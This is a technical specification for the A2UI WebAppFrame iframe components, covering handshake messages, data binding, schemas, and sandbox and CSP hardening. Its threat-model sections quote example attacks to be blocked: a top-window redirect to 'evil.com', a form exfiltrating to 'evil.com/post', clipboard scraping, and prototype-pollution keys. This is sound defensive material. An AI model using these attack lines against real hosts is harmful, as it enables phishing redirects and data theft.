


# A2UI WebApp Iframe Component Specification (v0.9)

## A Specification for Sandboxed, Rich Interactive Components in the Agent-to-UI Protocol

Jul 27, 2026  
Status: In progress

# Abstract

This specification document defines the A2UI Iframe Component (v0.9) for the secure, sandboxed
rendering of rich interactive web applications and model-generated HTML content. This document
serves two primary purposes:

1. **Platform Implementation Blueprint:** It provides client-side platform developers with a strict,
   standard set of instructions to implement compliant `WebAppFrameUrl` and `WebAppFrameSrcdoc`
   components in any native programming language (e.g., TypeScript/Web, Kotlin/Android, Swift/iOS,
   or Dart/Flutter) while maintaining identical security and sandboxing guarantees.
2. **Interoperable Application Standard:** It defines a secure, transport-agnostic runtime
   environment and messaging contract. Embedded web application developers can build highly
   portable, rich interactive tools that are guaranteed to run seamlessly, sync state, and invoke
   local functions inside "any" A2UI-compliant client wrapper.

# 1. Introduction and motivation

The A2UI protocol is designed to stream structured, type-safe JSON component trees to a client
renderer. While A2UI provides standard primitive components (e.g., `Text`, `Row`, `Button`,
`TextField`), complex enterprise use cases often require:

- **Deterministic rendering** of highly custom legacy dashboards, charts, and visualizations.
- **Interactive embeds** like maps, complex multi-step forms, and dynamic tools (e.g., rich text
  editors, calculators, interactive games) served directly by remote servers.
- **Strict isolation** of untrusted third-party applications to protect the host application's DOM,
  session cookies, and storage.

The **A2UI Iframe Component** bridges this gap. It defines a secure runtime environment inside a
sandboxed proxy.

In **A2UI v0.9**, the following new A2UI features can significantly increase the Iframe component's
utility:

- **Local Client-Side Function Calls:** Allowing isolated apps to trigger secure local custom
  functions (e.g., querying system hardware, opening URLs, local formatting).
- **Two-Way Local Data Binding:** Establishing a direct, reactive, network-free synchronization loop
  between the iframe's internal state and the parent A2UI local Data Model.

# 2. Architectural overview

In complex agentic workflows, rendering rich third-party widgets, charts, and legacy dashboards
safely is critical. A2UI provides web-app embedding frames to run isolated code safely.

To meet both security and performance requirements, A2UI separates this specification into two
layers:

1. **The WebAppFrame Runtime & Communication Contract:** A single, unified transport protocol that
   defines how _any_ application running inside an A2UI-based iframe communicates with the host. It
   covers JSON-RPC event messaging, local Two-Way Data Binding, and client-side function execution
   to support A2UI v0.9 features.
2. **Component Catalog Definitions & Rendering Setups:** Two separate frontend component
   definitions—**WebAppFrameUrl** and **WebAppFrameSrcdoc**—each with a tailored schema and unique
   sandbox/security configurations corresponding to their specific source type (external URL vs. raw
   inline HTML).

# 3. The WebAppFrame runtime and communication contract

To prevent compromised frames from spoofing ambient messages, the A2UI protocol strictly requires the use of a private `MessageChannel` for all post-initialization communication between the embedded application and the host.

The `@a2ui/web-bridge` SDK (coming soon) establishes this channel automatically and wraps the underlying protocol into a secure, type-safe, and Promise-based API. However, even for zero-dependency or LLM-generated scripts written in raw HTML/JS, the developer or LLM **must** extract the `MessagePort` provided by the host during the `a2ui_app_frame_init` handshake event (typically found at `event.ports[0]`) and use it for all subsequent events. Ambient `window.postMessage` is exclusively reserved for the initial handshake and will be ignored for data and action routing.

### Transport Layers & Security Enforcement

Because the communication lifecycle transitions from a public broadcast to a private pipe, different security measures apply depending on the phase:

| Phase                             | Message Types                                                                                            | Transport Mechanism          | Required Security Measures                                                                                                                                                                                                                     |
| :-------------------------------- | :------------------------------------------------------------------------------------------------------- | :--------------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Bootstrap & Handshake**         | `a2ui_sandbox_proxy_ready`, `a2ui_sandbox_resource_ready`, `a2ui_app_frame_ready`, `a2ui_app_frame_init` | Ambient `window.postMessage` | **Strict Origin/Source Verification Required:** The host must verify `event.origin` and `event.source === iframe.contentWindow`. The embedded app must verify the host's `event.origin` before accepting the `MessagePort`.                    |
| **Post-Initialization (Routing)** | `a2ui_action`, `a2ui_data_model_change`, `a2ui_function_call`, `a2ui_size_changed`, etc.                 | Dedicated `MessagePort`      | **No Origin Verification Needed:** The `MessageChannel` is a direct point-to-point pipe. Messages arriving on the port are implicitly secure. However, **Schema Validation** (Section 5.5) is strictly enforced by the host on these payloads. |

At the wire level, all communications occur using custom top-level message string tags
(`a2ui_*`) with flat keys. The protocol definitions below represent this underlying wire format.

## 3.1. Sandbox bootstrap lifecycle

Before the application-level handshake occurs, WebAppFrame components that rely on the
**Double-Iframe Sandboxing** architecture (such as `WebAppFrameUrl` loading external 3P content)
must complete an infrastructure-level bootstrap sequence.

This bootstrap ensures that the untrusted URL or HTML content is securely injected into a strict
inner sandbox, rather than loading directly into the outer proxy frame.



1. **`a2ui_sandbox_proxy_ready` (Proxy -> Host):** The outer proxy iframe (e.g. `sandbox.html`) is
   loaded from a trusted origin. Once its script initializes, it sends this message to the Host to
   signal it is ready to receive untrusted content.
   ```json
   {
     "type": "a2ui_sandbox_proxy_ready"
   }
   ```
2. **`a2ui_sandbox_resource_ready` (Host -> Proxy):** The Host intercepts the proxy ready signal and
   replies with the untrusted URL (or raw HTML for Srcdoc).
   ```json
   {
     "type": "a2ui_sandbox_resource_ready",
     "url": "https://untrusted-3p-app.com/"
   }
   ```
3. **Inner Sandbox Creation:** The proxy frame dynamically creates an inner `<iframe sandbox="...">`
   element without `allow-same-origin`, assigns the untrusted resource to it, and sets up a secure
   message relay between the inner frame and the Host.

## 3.2. Application handshake lifecycle

To guarantee that state synchronization messages are never lost during initial frame loading, a
formal bidirectional handshake should be strictly enforced:



1. **`a2ui_app_frame_ready` (Embedded App -> Host Client):** Once the embedded application is fully
   loaded and its `window.addEventListener('message', ...)` listener is registered, it must dispatch
   an `a2ui_app_frame_ready` message to notify the host.
   ```json
   {
     "type": "a2ui_app_frame_ready"
   }
   ```
2. **`a2ui_app_frame_init` (Host Client -> Embedded App):** Upon receiving the ready signal, the
   Host Client immediately replies with an `a2ui_app_frame_init` message containing the static
   configuration (`config`), the initial state of the bound data model (`initialData`), and lists
   of authorized actions and client functions. **Host clients must also transfer a `MessagePort`
   (e.g., `event.ports[0]`)** with this message to establish the dedicated 1-to-1 communication
   bridge for all subsequent data and event messages.
   ```json
   {
     "type": "a2ui_app_frame_init",
     "value": {
       "config": {
         "theme": "dark",
         "apiKey": "token_123"
       },
       "initialData": {
         "selectedModel": {"id": "model_s", "trim": "Plaid"},
         "carColor": "Pearl White"
       },
       "allowedEvents": ["onCheckoutSubmit"],
       "allowedFunctions": ["formatCurrency"],
       "hostContext": {
         "containerDimensions": {
           "width": 800,
           "height": 500
         }
       }
     }
   }
   ```

## 3.3. Outgoing messages (Embedded app to host)

Once the initial handshake is complete, all subsequent outgoing messages from the embedded application must be dispatched using the `postMessage` method of the `MessagePort` received during the `a2ui_app_frame_init` handshake (e.g., `hostPort.postMessage({ ... })`). Ambient `window.parent.postMessage` must not be used after the initialization handshake.

### A. Event dispatch (`a2ui_action`)

Dispatched when the user interacts with the embedded application (e.g., clicking a button) and the
app wants to trigger a server-side action.

**Message schema**

```json
{
  "type": "a2ui_action",
  "action": "string",
  "data": {
    "key": "any-primitive-or-nested-json"
  }
}
```

**Host action**  
The host checks if the dispatched `action` name is present in the component's `allowedEvents` array.
If yes, it packages the action context and streams it to the A2UI server. If not, it silently drops
it and prints a security warning in the developer console.

### B. Reactive state synchronization (`a2ui_data_model_change`)

Dispatched when the embedded application updates its internal state and wants to write it back to
the parent A2UI Data Model.

**Message schema**

```json
{
  "type": "a2ui_data_model_change",
  "key": "string",
  "subpath": "string",
  "value": "any-primitive-or-json-object"
}
```

**Host action**  
The host instantly writes the `value` back to the Data Model. If `subpath` is provided, the host
resolves it relative to the root bound data path (`dataPath + subpath`) and updates only that
specific sub-field. If `subpath` is omitted, the host replaces the entire root value at `dataPath`.
This triggers local reactivity, instantly updating any sibling components.

To avoid infinite update loops and redundant echoes, both sides should implement cycle prevention:

1. **Host-side Write Lock / Echo Suppression:** When the host processes an incoming
   `a2ui_data_model_change` message from the app, it should temporarily set a transaction flag (or
   write lock) during the write to its local store. The host's data subscription listener should
   check this flag and suppress sending a loopback `a2ui_data_model_update` notification to the app
   for the duration of that synchronous write stack.
2. **Deep-Equality Checking:** The host discards incoming `a2ui_data_model_change` messages if the
   value is structurally identical to the current state at the target path, and the embedded app
   does the same for incoming `a2ui_data_model_update` messages to prevent unnecessary redraw
   cycles.

> [!WARNING] Because state propagation is bi-directional over an asynchronous sandbox boundary, race
> conditions or state clobbering can occur if the host and the embedded app write to the same path
> concurrently. To prevent race conditions, the embedded application and the host SHOULD use
> targeted subpath updates (via the `subpath` parameter) rather than transmitting full object
> snapshots.

### C. Local client-side function execution (`a2ui_function_call`)

Dispatched when the embedded app wants to invoke a registered local v0.9 function.

**Message schema**

```json
{
  "type": "a2ui_function_call",
  "call": "string",
  "callId": "string",
  "args": {
    "argName": "any-value"
  }
}
```

**Host action**  
The host checks if the target function is listed in `allowedFunctions`. If verified, it evaluates
the function using A2UI's client catalog engine and returns the result.

### D. Frame resize request (`a2ui_size_changed`)

Allows the embedded app to dynamically request height changes to prevent local scrollbars.

**Message schema**

```json
{
  "type": "a2ui_size_changed",
  "height": "number",
  "width": "number"
}
```

**Host action**  
The host dynamically updates the DOM height style of the wrapper container to the requested pixel
value (typically utilizing animations or transitions).

## 3.4. Incoming messages (Host to embedded app)

### A. Reactive state update (`a2ui_data_model_update`)

Sent whenever the data bound to the `data.path` updates in the parent A2UI Data Model. The embedded
app consumes this update and automatically synchronizes its local UI/state with the updated values.
If `subpath` is provided, the app updates state at that specific subpath relative to its root data
binding. If `subpath` is omitted, the app replaces its full root state.

**Message schema**

```json
{
  "type": "a2ui_data_model_update",
  "key": "string",
  "subpath": "string",
  "value": "any-primitive-or-json-object"
}
```

### B. Local function execution output

Sent as a response to an `a2ui_function_call` execution.

**Message schema (success or error)**

```json
{
  "type": "a2ui_function_result",
  "call": "string",
  "callId": "string",
  "status": "string",
  "result": "any-value-or-object",
  "error": {
    "code": "string",
    "message": "string"
  }
}
```

**Embedded app action**  
The embedded app consumes this result and processes it based on its own logic.

### C. Host context update (`a2ui_host_context_update`)

Sent whenever the host container's layout or context dynamically changes (e.g., window resized by
the user). This allows the embedded app to responsively adapt its layout to match the newly
allocated dimensions.

**Message schema**

```json
{
  "type": "a2ui_host_context_update",
  "value": {
    "containerDimensions": {
      "width": 900,
      "height": 600
    }
  }
}
```

**Embedded app action**  
The embedded app consumes this updated configuration and dynamically adjusts its internal rendering
as needed.

## 3.5. WebAppFrame Protocol vs. MCP App Bridge Protocol Equivalence

The A2UI `WebAppFrame` contract and the MCP App Bridge (`@modelcontextprotocol/ext-apps/app-bridge`)
share identical runtime capabilities and semantics, but differ in their underlying message envelope.

While WebAppFrame uses custom top-level message string tags (`a2ui_*`) with flat keys optimized for
simple scripts, the standard MCP App Protocol uses standard JSON-RPC 2.0 framing (`jsonrpc: "2.0"`).

Because of this difference, if a developer wishes to use the formalized bridge approach for
WebAppFrame, they should use the dedicated `@a2ui/web-bridge` SDK rather than the
`@modelcontextprotocol/ext-apps/app-bridge` SDK, as the latter strictly enforces JSON-RPC 2.0
formatting.

# 4. Component catalog definition

The two web frame components, _WebAppFrameUrl_ and _WebAppFrameSrcdoc_, shall be registered as
distinct options in the A2UI v0.9 Component Catalog.

## 4.1. WebAppFrameUrl schema definition

Used to load an external web application hosted on a remote domain.

```json
{
  "WebAppFrameUrl": {
    "type": "object",
    "description": "Renders a secure, allowlisted external web application URL in an iframe.",
    "properties": {
      "id": {
        "$ref": "common_types.json#/$defs/ComponentId"
      },
      "component": {
        "const": "WebAppFrameUrl"
      },
      "url": {
        "$ref": "common_types.json#/$defs/DynamicString",
        "description": "The external URL to load inside the iframe."
      },
      "config": {
        "type": "object",
        "description": "A dictionary of static key-value initialization properties passed directly to the embedded application without reactive data model binding."
      },
      "data": {
        "type": "object",
        "properties": {
          "paths": {
            "type": "object",
            "description": "A dictionary mapping custom state keys to distinct JSON Pointer paths in the data model.",
            "additionalProperties": {
              "type": "string"
            }
          }
        },
        "required": ["paths"],
        "additionalProperties": false
      },
      "height": {
        "$ref": "common_types.json#/$defs/DynamicNumber"
      },
      "allowedEvents": {
        "type": "object",
        "description": "A map of allowed action names to their expected JSON Schema.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "mutableData": {
        "type": "object",
        "description": "A map of data model keys that the embedded application is authorized to mutate in the parent A2UI Data Model, mapped to JSON Schemas defining their allowed values.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "allowedFunctions": {
        "type": "object",
        "description": "A map of authorized host client functions to the JSON Schema of their arguments.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "disableSchemaValidation": {
        "type": "boolean",
        "description": "If true, bypasses the security firewall. Must be strictly gated by the backend.",
        "default": false
      }
    },
    "required": ["id", "component", "url"],
    "unevaluatedProperties": false
  }
}
```

## 4.2. WebAppFrameSrcdoc schema definition

Used to load standalone, sandboxed, model-generated HTML/JS layouts.

```json
{
  "WebAppFrameSrcdoc": {
    "type": "object",
    "description": "Renders rich, model-generated HTML/JS bundles securely in a sandboxed safe content frame.",
    "properties": {
      "id": {
        "$ref": "common_types.json#/$defs/ComponentId"
      },
      "component": {
        "const": "WebAppFrameSrcdoc"
      },
      "htmlContent": {
        "type": "string",
        "description": "The raw HTML string to render via srcdoc. Can be URL-encoded."
      },
      "config": {
        "type": "object",
        "description": "A dictionary of static key-value initialization properties passed directly to the embedded application without reactive data model binding."
      },
      "data": {
        "type": "object",
        "properties": {
          "paths": {
            "type": "object",
            "description": "A dictionary mapping custom state keys to distinct JSON Pointer paths in the data model.",
            "additionalProperties": {
              "type": "string"
            }
          }
        },
        "required": ["paths"],
        "additionalProperties": false
      },
      "height": {
        "$ref": "common_types.json#/$defs/DynamicNumber"
      },
      "allowedEvents": {
        "type": "object",
        "description": "A map of allowed action names to their expected JSON Schema.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "mutableData": {
        "type": "object",
        "description": "A map of data model keys that the embedded application is authorized to mutate in the parent A2UI Data Model, mapped to JSON Schemas defining their allowed values.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "allowedFunctions": {
        "type": "object",
        "description": "A map of authorized host client functions to the JSON Schema of their arguments.",
        "additionalProperties": {
          "type": "object",
          "description": "A valid JSON Schema definition."
        }
      },
      "disableSchemaValidation": {
        "type": "boolean",
        "description": "If true, bypasses the security firewall. Must be strictly gated by the backend.",
        "default": false
      }
    },
    "required": ["id", "component", "htmlContent"],
    "unevaluatedProperties": false
  }
}
```

## 4.3. Data types and state binding patterns

WebAppFrame components distinguish between three categories of data passed to the embedded application. Selecting the appropriate category depends on whether the data changes over time, where the source of truth lives, and whether the embedded application is authorized to mutate it.

| Data Type                                                     | Source of Truth / Location                                                        | Lifetime Mutability                                                                                                | Reactive Subscriptions                                                                                                                                              | When to Use                                                                                                         |
| :------------------------------------------------------------ | :-------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------ | :------------------------------------------------------------------------------------------------------------------ |
| **Static Configuration (`config`)**                           | Inline in the **Component Definition** in the UI stream.                          | **Immutable.** Evaluated once when the component is created. Neither the iframe nor the host or server changes it. | **None.** Delivered once during the `a2ui_app_frame_init` handshake. No listeners are created.                                                                      | Widget initialization settings, theme preferences, API keys, tenant IDs, static labels, or feature flags.           |
| **Read-Only Bound Data (`data.paths` without `mutableData`)** | In the shared **A2UI Data Model**, referenced via a JSON Pointer in `data.paths`. | **Externally dynamic.** Read-only to the iframe, but the host or server can dynamically update it at any time.     | **Active subscription.** The host subscribes to the Data Model path and pushes `a2ui_data_model_update` messages whenever the value changes.                        | Real-time streaming values from the backend, such as live sports scores, stock ticker prices, or status indicators. |
| **Mutable Bound Data (`data.paths` with `mutableData`)**      | In the shared **A2UI Data Model**, referenced via a JSON Pointer in `data.paths`. | **Bidirectional.** Both the server/host and the embedded iframe can update or mutate the value.                    | **Active bidirectional sync.** The host pushes updates to the iframe, and the host firewall authorizes incoming `a2ui_data_model_change` mutations from the iframe. | Interactive form fields, user selections, calculator inputs, or shared document state that the user modifies.       |

# 5. Rendering setup and security controls

The separation of A2UI web frames into two components is fundamentally driven by their divergent
threat models and sandbox requirements.

## 5.1. Overall security specifications

Beyond the specific network and rendering isolation strategies, both `WebAppFrameUrl` and
`WebAppFrameSrcdoc` components enforce strict, capability-based security through the Principle of
Least Privilege:

- **Explicit Action Allowlisting (`allowedEvents`):** The embedded application cannot trigger
  arbitrary host or server-side actions. The host client acts as a strict firewall for all
  `a2ui_action` payloads, silently dropping any action name not explicitly pre-approved in the
  component's `allowedEvents` schema configuration.
- **Restricted Client-Side Execution (`allowedFunctions`):** The embedded application is blocked
  from arbitrarily invoking local client-side APIs. Every `a2ui_function_call` request is
  intercepted and validated against the `allowedFunctions` array.
- **Targeted State Scoping (`paths`):** Through the explicit `paths` mapping, the sandbox is granted
  access to only the specific segments of the global A2UI Data Model it strictly requires.
- **Denial-of-Service (DoS) Prevention (Throttling & Equality Checks):** To prevent malicious
  applications from monopolizing the host's main thread or initiating infinite render loops, the
  protocol mandates deep-equality checks for state updates and strict throttling/clamping for
  dynamic resize requests.
- **Prototype Pollution & Deep JSON Defense:** Guarding host bridge services and backend parsers
  against prototype pollution keys (`__proto__`, `constructor`, `prototype`) and recursive stack
  overflow attacks from deeply nested structures (e.g., >10 levels) or oversized payloads (e.g., >64 KB).
- **Permissions Policy Baseline & Capability Delegation:** Untrusted frames must be prevented from silently accessing
  hardware sensors (camera, microphone, geolocation) or interacting with the system clipboard. Host wrappers enforce
  an explicit deny-all Permissions Policy by default on sandboxed iframes, delegating capabilities only when explicitly
  declared via `permissions` (Section 5.6).
- **Top-Level Window Hijacking & Frame-Busting Defense:** Preventing untrusted or partner scripts
  from attempting `window.top.location = "https://evil.com"` to redirect or hijack the host window by
  strictly omitting `allow-top-navigation` and `allow-top-navigation-by-user-activation` across all
  iframe sandbox configurations.

> [!NOTE] **CSP Delivery Nuance:** There is a fundamental difference in how Content Security
> Policies (CSP) are enforced between the two component types. When fetching the application by URL
> (`WebAppFrameUrl`), the inner iframe loads an external resource via its `src` attribute;
> therefore, the sandbox proxy cannot inject a `<meta>` tag into the document's `<head>`. CSP must
> be delivered entirely via HTTP `Content-Security-Policy` headers from the remote server.
> Conversely, when receiving the application as `srcdoc` (`WebAppFrameSrcdoc`), the sandbox proxy
> holds the raw HTML string and must inject the CSP `<meta>` tag directly into the markup before
> rendering.

## 5.2. WebAppFrameUrl rendering & security specifications

Since `WebAppFrameUrl` loads content from remote servers, its threat model revolves around phishing
and malicious tab-navigation.

**Required Hardening Controls:**

- **Strict Domain Allowlist:** The component must consume a DomainMatcher context (allowlistContext)
  and reject any URL whose hostname does not match allowlisted exact or wildcard rules (e.g.,
  `*.trusteddomain.com`).
- **Server-Side CSP Enforcement:** Because the application is fetched by URL, the host cannot inject
  a CSP `<meta>` tag. The remote server is responsible for supplying appropriate HTTP
  `Content-Security-Policy` headers.
- **Origin Parameter Injection:** The host must append the parent window's origin query parameter
  (`?origin=<location_origin>`) to the URL before iframe load, safely declaring the host's identity
  to the loaded site.
- **Expected Origin Validation:** The host must store `expectedOrigin` during load. It must discard
  all postMessage payloads where `event.origin !== expectedOrigin` or
  `event.source !== directIframe.contentWindow`.
- **Double-Iframe Sandboxing (Web Platforms):** A single layer iframe does not offer good isolation.
  Web renderers must load the external URL via a nested proxy frame (e.g., A2UI Sandbox Proxy). The
  outer same-origin proxy coordinates message transfers, while the inner iframe is strictly
  sandboxed.
- **Top-Level Navigation Restriction (Omit `allow-top-navigation`):** The iframe `sandbox` attribute
  must strictly omit `allow-top-navigation` and `allow-top-navigation-by-user-activation`. This prevents
  embedded web applications from executing frame-busting scripts (such as assigning
  `window.top.location = "https://evil.com"`) that would hijack and navigate the host browsing context away.

## 5.3. WebAppFrameSrcdoc rendering & security specifications

Since `WebAppFrameSrcdoc` renders raw, dynamic markup, it must be executed under a Network-Free
Sandbox to prevent CSRF and exfiltration.

**Required Hardening Controls:**

- **Strict CSP Meta Tag Injection:** Unlike `WebAppFrameUrl`, the renderer receives the raw HTML
  string. It must parse the HTML, strip any author-supplied CSP meta tags, and inject a strict CSP
  meta tag as the first child of the head:
  `<meta http-equiv="Content-Security-Policy" content="default-src 'self' 'unsafe-inline' 'unsafe-eval' data:; connect-src 'none'; form-action 'none';">`.
- **Form-Based Exfiltration Prevention (`form-action 'none'`):** When `allow-forms` is included in
  the iframe sandbox attributes (to allow local interactive form controls), untrusted scripts in
  `WebAppFrameSrcdoc` could attempt to submit an HTML form (`<form action="https://evil.com/post" method="POST">`)
  to an external server. Because `connect-src 'none'` only blocks APIs like `fetch` and `XMLHttpRequest`,
  injecting `form-action 'none';` closes HTML form navigation and submission bypasses.
- **Explicit Deny-All Permissions Policy:** To prevent untrusted markup from accessing sensitive hardware
  sensors (camera, microphone, geolocation) or interacting with the system clipboard without host mediation,
  the renderer must set an explicit deny-all Permissions Policy on the inner iframe element by default:
  `allow="camera 'none'; microphone 'none'; geolocation 'none'; clipboard-read 'none'; clipboard-write 'none';"`.
  As detailed in Section 5.6, capabilities needed by the embedded application are delegated dynamically when declared in `permissions`.
- **Top-Level Window Hijacking Prevention:** The iframe sandbox configuration (`allow-scripts allow-forms allow-popups allow-modals`)
  strictly excludes `allow-top-navigation` and `allow-top-navigation-by-user-activation`. This blocks
  embedded scripts from redirecting the host window via `window.top.location` or anchor tags with `target="_top"`.
- **Double-Iframe Sandboxing (Web Platforms):** A single layer iframe does not offer good isolation.
  Web renderers must load raw HTML via a nested proxy frame (e.g., A2UI Sandbox Proxy). The outer
  same-origin proxy coordinates message transfers, while the inner iframe is strictly sandboxed
  without allow-same-origin.
- **Source Verification:** The proxy must verify postMessage payloads exclusively via
  `event.source === inner.contentWindow` equality.

## 5.4. Security controls and operational guardrails

To prevent poorly written or malicious embedded applications from thrashing the layout or initiating
infinite render loops, the Host Client must enforce the following runtime controls when processing
`a2ui_size_changed` requests:

- **Clamping:** The host must clamp the requested dimensions using configuration rules (e.g.,
  `minHeight: 100px`, `maxHeight: 2000px`, `minWidth: 200px`, `maxWidth: 3000px`).
- **Throttling:** Consecutive resize events from the same component ID must be queued or
  rate-limited to a maximum of one redraw execution per 100 milliseconds.
- **Threshold Gate:** Dynamic changes of less than 5 pixels in both height and width should be
  ignored to prevent subtle layout shaking.

## 5.5 JSON Schema Validation Firewall

To add a layer of security to support complex JSON payloads being sent from the embedded app to the
host when triggering events, two-way data binding, and local function execution, the WebAppFrameXXX
component acts as a strict, centralized firewall to block JSON payloads that do not adhere to the
expected JSON schema. The host application must never process or forward messages from the embedded
app without first validating them against a server-dictated schema.

### 5.5.1. Server-Dictated Validation Rules

During the initialization handshake, the `a2ui_app_frame_init` message sent from the Host to the
Embedded App is expanded to include strict JSON Schema definitions provided by the A2UI backend.

The initialization payload must define:

- **`allowedEvents`**: A map of authorized `action` names to strict JSON Schemas defining the exact
  shape of the expected `data` payload.
- **`mutableDataKeys`**: An array of specific data model keys the iframe is explicitly authorized to
  mutate.
- **`allowedFunctions`**: A map of authorized host client functions to JSON Schemas defining their
  expected arguments.

### 5.5.2. The Interception & Validation Flow

When the embedded app dispatches a message over the dedicated `MessagePort`, the WebAppFrame component executes the following pipeline before interacting with the host's surface or the backend:

- **Origin Check (Fallback):** The component verifies that `event.origin` matches the expected allowlisted origin (if available via the port).
- **Payload Sanitization & Security Verification:**
  - _Payload Size Enforcement:_ The component verifies that the serialized message size does not exceed the maximum limit of 64 KB (65,536 bytes).
  - _Nesting Depth Inspection:_ The component inspects the object hierarchy to ensure the JSON nesting depth does not exceed 10 levels.
  - _Prototype Pollution Rejection:_ The component recursively checks all property names in the message payload and rejects any message containing forbidden prototype pollution keys (`__proto__`, `constructor`, `prototype`).
- **Schema Enforcement:**
  - _For `a2ui_action`:_ The component looks up the `action` string in `allowedEvents`. It runs the
    `data` payload against the associated schema (e.g., using a JSON Schema validator).
  - _For `a2ui_data_model_change`:_ The component verifies that `key` exists in `mutableDataKeys`
    and validates the `value`.
  - _For `a2ui_client_function_call`:_ The component verifies the function is in `allowedFunctions`
    and validates the arguments against the function's schema.
- **Automatic Rejection:** If the payload fails schema validation, contains prototype pollution keys, exceeds nesting/size limits, references an unauthorized key, or if the action does not exist in the allowed list, the component **silently drops the message** and logs a security violation warning to the host console. It must not forward malformed data to the backend.

### 5.5.3. Denial of Service (DoS) Prevention and Rate Limiting

To prevent a compromised iframe from exhausting host resources, thrashing the main UI thread, or flooding the A2UI server:

- **Rate Limiting:** The WebAppFrame component must implement a configurable **Rate Limiter / Debouncer** on the message event listener, dropping messages that exceed a safe threshold (e.g., > 10 events per second) and logging a rate-limit warning.
- **Dynamic Resize Throttling & Clamping:** The host must clamp and throttle resize events (as specified in Section 5.4) to prevent rapid redraw thrashing and UI jitter.
- **Deep-Equality Cycle Prevention:** The host and embedded app must enforce structural equality checks on state updates to prevent infinite update ping-pong loops.

### 5.5.4. JSON Payload Protection and Prototype Pollution Defense

To prevent untrusted applications from crashing host parsers via stack exhaustion, exhausting memory, or polluting JavaScript object prototypes, the host bridge enforces the following guardrails on all incoming `a2ui_action`, `a2ui_data_model_change`, and `a2ui_function_call` messages:

- **Prototype Pollution Key Rejection:** Host bridge services and backend parsers must recursively inspect all incoming message payloads and reject any payload containing `__proto__`, `constructor`, or `prototype` property keys at any depth.
- **Maximum JSON Nesting Depth:** The host enforces a strict maximum nesting depth of 10 levels for JSON objects and arrays. Messages exceeding this threshold must be rejected before serialization to prevent call stack exhaustion and `RangeError` crashes.
- **Maximum Message Payload Size:** The host enforces a maximum serialized payload size limit of 64 KB (65,536 bytes) per message to mitigate memory exhaustion and denial-of-service attacks.

### 5.5.5. Trusted Source Bypass

In scenarios where the embedded application is a trusted first-party tool, the strict schema
validation overhead can be bypassed to improve performance and allow arbitrary data payloads.

The A2UI server can emit a `disableSchemaValidation: true` flag inside the `a2ui_app_frame_init`
handshake.

When this flag is set to true:

- The WebAppFrame component will skip the JSON Schema validation step entirely.
- `a2ui_action` payloads, `a2ui_data_model_change` mutations, and `a2ui_client_function_call`
  arguments will be parsed and forwarded blindly.
- The component will still enforce standard origin validation (ensuring event.origin matches the
  allowlisted source).

**Security Constraint:** The A2UI backend must enforce strict origin checks before allowing the
`disableSchemaValidation` flag to be set. It should only be permitted for verified, internal
domains. If an LLM Agent is dynamically generating the UI tree, the backend must prevent the Agent
from applying this bypass to external or untrusted iframe URLs.

### 5.5.6. Top-Level Window Hijacking (Frame-Busting) Prevention

- **Risk Assessment:** Likelihood: MED | Impact: HIGH | Relevant trust tiers: Tier 3 (Zero-trust untrusted) and Tier 2 (Semi-trusted partner).
- **Security Concern:** Embedded third-party scripts or model-generated HTML may attempt top-level window hijacking (frame-busting) by setting `window.top.location = "https://evil.com"`, modifying `window.parent.location`, or executing link navigations targeting `_top`. This can redirect the host user away from the application to a phishing or malicious landing page.
- **Mandatory Sandbox Directive Rules:** All iframe `sandbox` attributes configured by host renderers or intermediate sandbox proxies must strictly omit `allow-top-navigation`, `allow-top-navigation-by-user-activation`, and `allow-top-navigation-to-custom-protocols`. Omission of these tokens ensures modern browser security engines reject any attempt by embedded browsing contexts to navigate or manipulate top-level ancestor windows.

## 5.6. Permissions Policy and Declarative Capability Delegation

Because untrusted third-party code and model-generated HTML execute within sandboxed iframes, access to sensitive hardware sensors (camera, microphone, geolocation) and the system clipboard (`navigator.clipboard`) presents critical security and privacy considerations.

### 5.6.1. Threat Model & Default Deny-All Baseline

Even within a sandboxed iframe with an opaque `null` origin:

- **Clipboard Scraping & Injection:** Malicious scripts could attempt to read passwords, auth tokens, or private user data via `navigator.clipboard.readText()`, or silently overwrite the clipboard.
- **Hardware Probing & Fingerprinting:** Scripts could attempt to invoke `navigator.mediaDevices.getUserMedia()` or `navigator.geolocation.getCurrentPosition()`, triggering intrusive browser permission dialogs or fingerprinting devices.

To establish a strict capability ceiling, the host wrapper/proxy injects an explicit **deny-all Permissions Policy** by default on the inner iframe element:

```html
<iframe
  sandbox="allow-scripts allow-forms allow-popups allow-modals"
